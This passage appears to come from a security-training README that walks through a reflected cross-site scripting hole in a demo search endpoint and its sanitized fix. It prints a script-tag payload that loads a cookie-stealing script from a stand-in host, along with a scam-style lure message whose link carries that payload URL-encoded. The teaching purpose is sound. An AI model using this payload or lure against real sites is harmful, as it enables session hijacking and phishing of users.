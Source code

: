 ![unsanitized input reflected to user](assets/images/reflected-unsanitized.gif)

This server is not sanitizing requests. Take a peek at the "default" code
responding to such a request at
[`api/app/controllers/search`](./api/app/controllers/search).

How is this exploitable? Our demo application is a stateless application, and
no requests URLs other than root (`/`) will hit the client server directly. The
API server, for the most part, is only manipulable through the client.
**However**, with client-side routing, or with a traditional server-rendered
application, the following exploit becomes possible:

```
<script src="http://my.legit.site/cookie-upload.js"></script>
```

> Hi! I'd like to give you $10,000, no personal information like bank
> account numbers or credit cards required. I've already got that set
> up, just `[click
> here](http://floogle.com/search?q=%3Cscript%20src%3D%22http%3A%2F%2Fmy.legit.site%2Fcookie-upload.js%22%3E%3C%2Fscript%3E)`
> to start the process.

Since Alice is authenticated with Bob's application, the injected
script could send Alice's session information to Mallory.

Now, try toggling search to secure in the client. Reissue both your normal and
your mischievous requests. Try combining both searches queries into a single
request. Let's look at the sanitary response code in
[`api/app/controllers/search`](./api/app/controllers/search). We're relying on
the external `sanitizer` library to do sanitize, or optionally escape, our
output. What should you consider when adopting a third-party security solution?

![sanitized input reflected to user](assets/images/reflected-server-sanitized.gif)

